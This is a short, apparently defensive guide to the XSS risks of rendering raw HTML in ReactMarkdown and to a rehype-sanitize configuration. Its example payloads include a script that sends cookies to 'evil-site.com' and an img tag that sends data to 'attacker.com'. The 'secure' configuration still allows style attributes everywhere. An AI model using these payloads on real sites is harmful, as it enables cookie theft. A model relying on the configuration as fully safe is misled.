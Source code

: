 # Security Analysis: rehype-raw and rehype-sanitize

## The Security Challenge

When you allow HTML in markdown content, you open potential security vulnerabilities. Here's what you need to know:

## Without Security Measures (DANGEROUS)

```typescript
// ❌ NEVER DO THIS - Allows any HTML to execute
<ReactMarkdown rehypePlugins={[rehypeRaw]}>
  {userContent}
</ReactMarkdown>
```

### Potential Attacks:

1. **Cross-Site Scripting (XSS)**
   ```html
   <script>
     // Malicious JavaScript could steal user data
     document.location = 'https://evil-site.com/steal?data=' + document.cookie;
   </script>
   ```

2. **Event Handler Injection**
   ```html
   <img src="x" onerror="alert('XSS Attack!')" />
   <div onclick="maliciousFunction()">Click me</div>
   ```

3. **Style-based Attacks**
   ```html
   <div style="position:fixed;top:0;left:0;width:100%;height:100%;background:red;z-index:9999;">
     Fake login form to steal credentials
   </div>
   ```

4. **Data Exfiltration**
   ```html
   <img src="https://attacker.com/log?data=sensitive-info" />
   ```

## How rehype-sanitize Protects You

### Current Safe Configuration
```typescript
// ✅ SECURE - Your current setup
const sanitizeOptions = {
  ...defaultSchema,
  tagNames: [
    ...(defaultSchema.tagNames || []),
    'img'  // Only allowing img tags beyond defaults
  ],
  attributes: {
    ...defaultSchema.attributes,
    img: ['src', 'alt', 'width', 'height', 'style', 'className', 'class'],
    '*': ['className', 'class', 'style']
  }
};
```
